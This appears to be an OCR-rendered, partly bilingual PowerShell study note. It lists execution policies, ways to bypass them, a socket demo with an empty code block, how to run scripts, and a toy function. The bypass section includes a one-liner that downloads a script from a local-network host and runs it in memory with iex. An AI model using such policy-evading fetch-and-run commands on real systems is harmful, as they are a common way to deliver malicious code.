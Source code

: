 # 异常处理
Try{
    $connection.open()
    $success = $true
}Catch{
    $success = $false
}

#Get-ExecutionPolicy -List
List of policies
- Restricted
- AllSigned
- RemoteSigned
- Unrestricted
- Bypass
- Undefined

## Bypass method
- Get-ExecutionPolicy	获取当前的执行策略
- Get-Content .test.ps1 | powershell.exe -noprofile –	通过管道输入进ps
- powershell -nop -c “iex(New-Object Net.WebClient).DownloadString(‘http://192.168.1.2/test.ps1‘)”

# Use powershell for Socket TCP Programming
- Open port 21 and return banner from port 21
- File: Tcp-Demo.ps1

```

```
# How to run a powershell script
## In Linux 
.\filename.ps1

## In Windows
- Open powershell ISE with ps1 file prss run
- .\filename.ps1
- in vscode: right click your file select run code or ctrl+shift+N

### Run your script that have a funtion call henshincode
```
function henshincode{
    param($ridercode = "ZIO")
    "HENSHIN!!, I am Kamen Rider $ridercode."
}
```
